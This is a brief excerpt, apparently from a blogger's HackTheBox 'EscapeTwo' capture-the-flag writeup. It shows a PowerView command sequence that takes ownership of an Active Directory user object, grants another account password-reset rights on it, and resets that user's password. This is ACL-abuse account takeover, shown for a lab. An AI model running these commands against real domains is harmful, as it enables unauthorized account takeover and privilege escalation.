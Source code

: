 
# For commercial use, please contact the author for authorization. For non-commercial use, please indicate the source.  
# Licens: CC BY-NC-SA 4.0  
# Author: Axura  
# URL: https://4xura.com/ctf/htb/htb-writeup-escapetwo/  
# Source: Axura's Blog  
  
Set-DomainObjectOwner -Identity victim -OwnerIdentity tom # Assign 'axura' permissions to reset passwords on 'victim' object Add-DomainObjectAcl -TargetIdentity victim -PrincipalIdentity axura -Rights ResetPassword # Create a PowerShell secure string for the new password and reset password of 'victim' $newPassword = ConvertTo-SecureString "Axura@4sure1377" -AsPlainText -Force Set-DomainUserPassword -Identity victim -AccountPassword $newPassword
